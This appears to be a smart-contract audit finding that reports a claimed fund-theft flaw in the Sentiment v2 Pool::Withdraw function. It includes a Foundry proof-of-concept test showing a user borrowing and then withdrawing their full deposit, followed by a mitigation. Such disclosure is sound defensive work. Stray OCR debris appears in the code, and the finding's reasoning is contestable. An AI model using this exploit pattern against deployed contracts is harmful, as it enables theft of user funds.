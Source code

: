 Straight Lime Ostrich

High

# Pool::Withdraw seeks to withdraw the assets that was deposited without any significant check on the amount borrowed

### Summary

```
uint256 maxWithdrawAssets = pool.totalDepositAssets - pool.totalBorrowAssets; 12-3 9
uint256 totalBalance = IERC20(pool.asset).balanceOf(address(this));
maxWithdrawAssets = (totalBalance > maxWithdrawAssets) ? maxWithdrawAssets : totalBalance;
if (maxWithdrawAssets < assets) revert Pool_InsufficientWithdrawLiquidity(poolId, maxWithdrawAssets, assets);
```
`Pool::Withdraw` does not implement any significant checks to reduce the amount that a user has borrow. The above checks in the function only checks whether the amount to be withdrawn by a user is greater than what is available in the contract `if (maxWithdrawAssets < assets)`. 

The implication of this is that a user can steal funds from the protocol.

### Source

https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/Pool.sol#L339C3-L372C6

### Impact

Shortage of Funds in the contract/Loss of funds by the protocol and users.

### PoC

## POC 
```
     function test__POC() public {
        uint96 assets = 6 ether;
        //user2 makes deposits
        vm.startPrank(user2);
        asset1.mint(user2, assets);
        asset1.approve(address(pool), assets);
        pool.deposit(linearRatePool, assets, user2);
        vm.stopPrank();

        //user2 makes deposits
        vm.startPrank(user);
        asset1.mint(user, assets);
        asset1.approve(address(pool), assets);
        pool.deposit(linearRatePool, assets, user);
        vm.stopPrank();


        //borrow of 3 ether
        vm.prank(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY));
        pool.borrow(linearRatePool, user, assets / 2);
            (,,,,,,, uint256 newTotalBorrowAssets, uint256 newTotalBorrowShares, uint256 totalDepositAssets ,) = pool.poolDataFor(linearRatePool);
        vm.warp(1000 days);
        vm.prank(user);
        pool.withdraw(linearRatePool, assets, user, user);

        assertEq(assets + (assets/2), asset1.balanceOf(user));
    }
```
The implication of this as seen from the above is the protocol would be in shortage of funds to settle user2.

### Mitigation

## Recommendation
There should be a system in place to tract users borrowings specifically and that the assets parameters in `Pool::Withdraw` is always reduces by that amount.